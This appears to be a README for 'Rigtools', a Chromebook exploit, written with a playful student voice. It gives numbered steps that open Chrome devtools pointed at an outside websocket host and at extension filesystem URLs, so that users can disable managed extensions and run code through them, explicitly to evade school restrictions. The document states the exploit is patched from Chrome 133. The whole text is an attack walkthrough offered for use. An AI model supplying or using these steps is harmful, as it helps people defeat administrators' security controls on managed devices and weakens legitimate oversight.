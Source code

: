  **THIS ONLY WORKS FOR CHROMEBOOK,NO WINDOWS OR ANYTHING***
**Rigtools** is an exploit that allows users to run code on extensions, disable extensions, and basically do whatever they want with an extension as long as it has the correct permissions.***IT IS PATCHED ON ALL CHROME VERSIONS 133 AND HIGHER*** =-( 😧

### How do you use it?

1. Open this link and just leave it alone. (Note: This will not run code it's just there to fix the second page.)
```md
devtools://devtools/bundled/devtools_app.html
```
2. Open this link and go to Network.

```md
devtools://devtools/bundled/devtools_app.html?experiments=true&ws=rig.kxtz.dev/
```
3. Double-Click the black/grey box:
![image](https://github.com/user-attachments/assets/08996bac-ebc1-4526-973d-ea766731cc9e)
![image](https://github.com/user-attachments/assets/f9ae4b07-d3f3-4318-9d63-404b9142e4f0)

4.Wait for a bit...It should open a page that has a lot of red and purple buttons.

5. Click on the button named "Gforms Locked mode".

6.Behold:RIGTOOLS!!! You can disable extensions that you want. (A reminder,These may stop working after a few weeks,you might have to do it again.)

7. Finally,you can run code like "Hello World" or something like that through the extensions.

8.Go to 
```md
https://devtoolbypass.playcode.io/
```
Click "skip intro" and drag the button.


***MORE IMPORTANT INFO***
-(A reminder,These may stop working after a few weeks,you might have to do it again.)
-If GitHub or DevtoolBypass gets blocked,then save this URL by dragging it into your bookmarks bar or...just keep it safe!
```
data:text/html;charset=utf-8,devtools://devtools/bundled/devtools_app.html <p> <dev> devtools://devtools/bundled/devtools_app.html?experiments=true&ws=rig.kxtz.dev/%20%20%20%20%20These%20are%20links%20to%20launch%20the%20unblock3r.%20%3Cp%3E%20%3Cdev%3E%20Use%20these%20links%20to%20get%20a%20HYPERLINK,a%20DIRECT%20link%20to%20RigTools%20devtools://devtools/bundled/devtools_app.html%20%3Cp%3E%20%3Cdev%3E%20filesystem:chrome-extension://gndmhdcefbhlchkhipcnnbkcmicncehk/temporary/index.html%20%3Cp%3E%20%3Cdev%3E%20The%20second%20one:%20filesystem:chrome-extension://gndmhdcefbhlchkhipcnnbkcmicncehk/persistent/rigtools.html
```
There is a **real** second version,though.
When you get to the original version,
-Scroll down a bit,until you find a button named "Update Rigtools".Click it.
-After,go to 
```
rigtools.playcode.io
```
and that should work too.
If it does not work,drag the "filesystem" url into your bookmarks bar and spam click it.
For now,this will do...

And now you can do whatever you want on your computer.Use this wisely,and stay on task in class...At lunch,you could be hangin' out in the library with your friends playing bloxd.io or whatever... =-D

***MORE STUFF COMING SOON***
-Follow for more exploits,Exploit-Master12 =-)





